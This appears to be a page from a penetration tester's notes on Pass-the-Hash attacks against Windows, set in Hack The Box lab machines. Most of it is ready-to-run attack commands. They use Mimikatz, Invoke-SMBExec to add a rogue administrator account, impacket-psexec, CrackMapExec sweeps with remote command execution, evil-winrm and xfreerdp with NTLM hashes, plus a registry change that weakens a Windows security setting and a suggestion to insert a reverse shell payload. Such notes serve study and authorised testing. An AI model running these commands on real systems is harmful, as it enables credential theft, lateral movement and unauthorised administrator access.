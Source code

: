 ```yaml
---
description: >-
  Is a technique where an attacker uses a password hash instead of the plain
  text password
---
```


# Pass the Hash (PtH)

the attacker must have administrative privileges or particular privileges on the target machine to obtain a password hash. Hashes can be obtained in several ways, including:

* Dumping the local SAM database from a compromised host.
* Extracting hashes from the NTDS database (ntds.dit) on a Domain Controller.
* Pulling the hashes from memory (lsass.exe).

### Mimikatz

```cmd-session
mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
```

* `/user` - The user name we want to impersonate.
* `/rc4` or `/NTLM` - NTLM hash of the user's password.
* `/domain` - Domain the user to impersonate belongs to. In the case of a local user account, we can use the computer name, localhost, or a dot (.).
* `/run` - The program we want to run with the user's context (if not specified, it will launch cmd.exe).

> Note that: Mimikatz is one of the most useful tools that we will be using in the future for active directory boxes. Some additional points to be noted about Mimikatz.
>
> 1. You can run it with just mimikatz.exe and then slowly specify other commands.
> 2. To extract the hashes presented in the current session, instead of running `sekurlsa::pth` we can run `sekurlsa::logonpasswords` additional information could be found in the [`HackTricks`](https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-mimikatz) website

### Invoke-TheHash(PS)

To download the tools, access [Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash) github.

```powershell-session
Import-Module .\Invoke-TheHash.psd1
```

<pre class="language-powershell-session"><code class="lang-powershell-session"><strong>Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add &#x26;&#x26; net localgroup administrators mark /add" -Verbose
</strong></code></pre>

* `Target` - Hostname or IP address of the target.
* `Username` - Username to use for authentication.
* `Domain` - Domain to use for authentication. This parameter is unnecessary with local accounts or when using the @domain after the username.
* `Hash` - NTLM password hash for authentication. This function will accept either LM:NTLM or NTLM format.
* `Command` - Command to execute on the target. If a command is not specified, the function will check to see if the username and hash have access to WMI on the target.

> we can use reverse shell payload in the Command section of the code (`PowerShell #3 (Base64)`) and for the target we can specify machine name instead of IP address (either would work).

### Impacket

```shell-session
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```

Following tools also works with PtH:

* [impacket-wmiexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py)
* [impacket-atexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py)
* [impacket-smbexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py)

### CrackMapExec

**Pass the Hash with CrackMapExec**

```shell-session
crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453
```

**CrackMapExec - Command Execution**

```shell-session
crackmapexec smb 10.129.201.126 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami
```

### evil-winrm

```shell-session
evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453
```

> Note: When using a domain account, we need to include the domain name, for example: administrator@inlanefreight.htb

### RDP

```shell-session
xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```

> for this method to work we have to set the value for `DisableRestrictedAdmin` as 0.
>
> To enable run:
>
> ```cmd-session
> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
> ```
>
> &#x20;Otherwise we will get the following error.
>
> <img src="../../../.gitbook/assets/image (8).png" alt="" data-size="original">



